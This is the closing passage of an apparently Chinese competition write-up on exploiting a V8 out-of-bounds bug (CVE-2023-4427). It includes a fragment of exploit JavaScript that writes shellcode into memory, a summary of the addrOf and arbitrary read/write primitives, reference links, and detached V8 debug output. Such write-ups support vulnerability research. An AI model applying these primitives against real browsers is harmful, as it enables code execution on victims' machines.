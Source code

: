 ```js


for (let i=0;i<shellcode.length;++i)
  data_view.setFloat64(i*8,itof(shellcode[i]),true); 


f();
</script>
</head>
</html>
```

该代码是笔者写于比赛期间的，而在本文撰写时已经时隔多日了，笔者重新开始考虑是否有更加稳定的方式去完成同样的工作。

其中笔者也尝试了通过将对象置于 `OldSpace` 的方式来试图令其稳定，但并没有解决**一旦修改代码就会令偏移改变**的问题。因此整个利用的编写前前后后调试了无数遍，相当的痛苦。

如果您在阅读本文后得出了更加精巧的方案，欢迎交流：`tokameine@gmail.com`。
# 总结

最后总结一下本文的利用手段，一般来说大概能够通用
- 条件：越界读
- 构造一个浮点数数组 `DoubleArr`，将其内容布置为对象数组的内容 `ObjArr`
- 通过越界读将其内容视作对象数组读出
- 构造AddressOf：向 `ObjArr` 放入对象，再从 `DoubleArr` 读出即可
- 构造任意地址读：将 `DoubleArr` 中对应位设置为 `DoubleArr map` ，将其 `element` 对应位设为地址，此时 `ObjArr` 被视为浮点数数组，读出内容即可
- 构造任意地址写：同 `构造任意地址读` 一样，将最后的读取改为写入即可

在完成以上原语以后，后续操作根据实际情况可以考虑写入 shellcode 或者 JOP 或是其他方式进行逃逸即可。

> 不过似乎最新的版本中已经不再支持这两个方法了，不过又出现了新的逃逸方案，假以时日希望有机会另写一文吧。
# 参考文章

https://paper.seebug.org/3081/
https://cwresearchlab.co.kr/entry/CVE-2023-4427-PoC-Out-of-bounds-memory-access-in-V8
https://rycbar77.github.io/2023/12/01/CVE-2023-4427%E5%88%86%E6%9E%90%E4%B8%8E%E5%A4%8D%E7%8E%B0/
https://bugs.chromium.org/p/chromium/issues/detail?id=1470668


  [0]: 0x93700002a21: [String] in ReadOnlySpace: #a (const data field 0:s, p: 4, attrs: [WEC]) @ Any
  [1]: 0x93700002a31: [String] in ReadOnlySpace: #b (const data field 1:s, p: 3, attrs: [WEC]) @ Any
  [2]: 0x93700002a41: [String] in ReadOnlySpace: #c (const data field 2:s, p: 2, attrs: [WEC]) @ Any
  [3]: 0x93700002a51: [String] in ReadOnlySpace: #d (const data field 3:s, p: 1, attrs: [WEC]) @ Any
  [4]: 0x93700002a61: [String] in ReadOnlySpace: #e (const data field 4:s, p: 0, attrs: [WEC]) @ Any
  [0]: 0xf6100002a21: [String] in ReadOnlySpace: #a (const data field 0:s, p: 0, attrs: [WEC]) @ Any
  [0]: 0x123a00002a21: [String] in ReadOnlySpace: #a (const data field 0:s, p: 2, attrs: [WEC]) @ Any
  [1]: 0x123a00002a31: [String] in ReadOnlySpace: #b (const data field 1:s, p: 1, attrs: [WEC]) @ Any
  [2]: 0x123a00002a41: [String] in ReadOnlySpace: #c (const data field 2:s, p: 0, attrs: [WEC]) @ Any
  [0]: 0x123a00002a21: [String] in ReadOnlySpace: #a (const data field 0:s, p: 2, attrs: [WEC]) @ Any
  [1]: 0x123a00002a31: [String] in ReadOnlySpace: #b (const data field 1:s, p: 1, attrs: [WEC]) @ Any
  [2]: 0x123a00002a41: [String] in ReadOnlySpace: #c (data field 2:d, p: 0, attrs: [WEC]) @ Any
  [0]: 0x123a00002a21: [String] in ReadOnlySpace: #a (const data field 0:s, p: 2, attrs: [WEC]) @ Any
  [1]: 0x123a00002a31: [String] in ReadOnlySpace: #b (const data field 1:s, p: 1, attrs: [WEC]) @ Any
  [2]: 0x123a00002a41: [String] in ReadOnlySpace: #c (const data field 2:s, p: 0, attrs: [WEC]) @ Any